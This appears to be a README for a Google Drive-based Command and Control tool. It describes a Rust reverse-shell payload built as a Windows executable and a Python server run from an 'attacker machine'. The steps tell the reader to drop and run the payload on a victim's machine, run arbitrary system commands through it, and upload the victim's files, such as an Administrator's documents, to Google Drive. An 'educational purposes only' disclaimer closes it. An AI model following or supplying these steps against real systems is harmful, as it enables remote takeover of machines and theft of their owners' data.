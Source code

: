 # Google Drive Command and Control (C2) System

This project provides a Command and Control (C2) system using the Google Drive API and a reverse shell payload written in Rust. The system allows uploading and downloading files to/from Google Drive from a victim's machine and executing commands on the target machine via a C2 server.

# Features
- Reverse shell payload written in Rust
- Upload and download files from the victim's machine to Google Drive
- Command execution on the victim's machine through a TCP connection
- Works with a Google Service Account for authentication
# Prerequisites
Google Service Account: You need to create a Google Cloud project, enable the Google Drive API, and download the Service Account credentials (JSON).
Rust Toolchain: Ensure you have Rust installed. If not, install it from Rust's official site.
How to Use
1. Setup
Add the Google Service Account JSON file to the src/ directory of the Rust project (used in main.rs).
Update main.rs with your Google Drive folder ID.
2. Compiling the Rust Payload
To compile the Rust payload, follow these steps:
```
# Build for a Windows target
cargo build --target x86_64-pc-windows-gnu --release
```
This will generate an .exe file in the target/x86_64-pc-windows-gnu/release folder.

3. Running the C2 Server
On your attacker machine (C2 server), you will run the following Python script to listen for incoming connections and send commands:
```
python c2-server.py
```
4. Reverse Shell on Victim's Machine
After compiling, transfer the compiled .exe payload to the victim's machine and execute it.

5. Available Commands
- Execute commands: Any system command can be executed as follows:
```
<command>
```
For example:
```
dir
```
- Upload a file to Google Drive:
```
upload;<file_path>
```
For example:
```
upload;C:\Users\Administrator\Documents\example.txt
```
Download a file from Google Drive:
```
download;<file_id>;<local_file_path>
```
For example:
```
download;1vjkwFQJXMpVps5Zd2yD54syoXMEw98Fb;C:\Users\Administrator\Downloads\test.png
```
6. Example C2 Usage
Start the C2 server: Run the c2-server.py script on your attacker machine.
Run the payload: Drop and execute the compiled payload on the victim's machine.
Command execution: After the reverse shell is established, issue commands such as file upload, download, or OS command execution.
Dependencies
The Rust project uses the following dependencies:
- yup-oauth2
- reqwest
- tokio
- serde
- serde_json
- mime

Make sure to install these by running:
```
cargo build
```
# License
This project is licensed under the Apache License 2.0. See the [LICENSE](https://github.com/apache/.github/blob/main/LICENSE) for details.

# Disclaimer
This project is intended for educational purposes only. The author is not responsible for any misuse of this software. Use this project only on machines you have explicit permission to test.
